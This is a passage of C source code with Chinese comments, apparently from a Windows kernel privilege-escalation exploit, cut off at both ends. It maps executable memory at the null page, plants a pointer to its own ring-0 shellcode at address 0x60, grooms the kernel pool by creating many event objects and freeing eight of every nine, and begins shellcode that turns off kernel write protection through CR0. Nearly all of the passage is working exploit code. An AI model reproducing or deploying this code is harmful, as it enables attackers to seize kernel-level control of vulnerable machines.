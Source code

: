 ```
                      &pZeroAddress,
                      0,
                      &dwZeroSize,
                      MEM_COMMIT | MEM_RESERVE | MEM_TOP_DOWN,
                      PAGE_EXECUTE_READWRITE);
    if (!NT_SUCCESS(status))
    {
        printf("NtAllocateVirtualMemory Error 0x%X\n", status);
        bRet = false;
        goto exit;
    }
 
    // 指定CloseProdure为shellcode的地址
    *(PDWORD)0x60 = (DWORD)Ring0ShellCode;
 
exit:
    return bRet;
}
 
void AllocateEvent()
{
    // 消耗空闲内存块
    for (DWORD i = 0; i < EVENT_UNUSED_NUMBER; i++)
    {
        CreateEvent(NULL, FALSE, FALSE, NULL);
    }
 
    // 获得连续的内存块
    for (DWORD i = 0; i < EVENT_NUMBER; i++)
    {
        g_hEvent[i] = CreateEvent(NULL, FALSE, FALSE, NULL);
    }
 
    printf("事件对象创建完成\n");
 
    // 每9个事件对象中释放前8个
    DWORD dwNum = EVENT_NUMBER / 9;
    for (DWORD i = 0; i < dwNum; i++)
    {
        for (DWORD j = 0; j < 8; j++)
        {
            if (g_hEvent[i * 9 + j])
            {
                CloseHandle(g_hEvent[i * 9 + j]);
                g_hEvent[i * 9 + j] = NULL;
            }
        }
    }
}
 
NTSTATUS Ring0ShellCode(ULONG InformationClass, ULONG BufferSize, PVOID Buffer, PULONG ReturnedLength)
{
    // 关闭页保护
    __asm
    {
        cli
        mov eax, cr0
        and eax, ~0x10000
        mov cr0, eax
    }
 
    __asm
```